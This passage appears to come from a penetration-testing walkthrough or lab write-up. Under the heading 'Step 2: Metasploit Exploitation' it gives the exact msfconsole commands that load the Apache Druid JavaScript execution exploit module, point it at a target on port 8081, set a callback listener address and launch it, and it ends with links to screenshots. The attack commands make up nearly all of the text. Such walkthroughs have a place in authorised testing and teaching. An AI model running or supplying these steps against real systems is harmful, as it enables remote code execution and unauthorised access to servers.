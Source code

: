 **Step 2: Metasploit Exploitation**
```bash
msfconsole
search druid
use exploit/linux/http/apache_druid_js_exec
show options
set RHOSTS <target_ip>
set RPORT 8081
set LHOST <your_ip>
exploit
```
![alt text](screenshots/metasploit-framework/11.PNG)
![alt text](screenshots/metasploit-framework/12.PNG)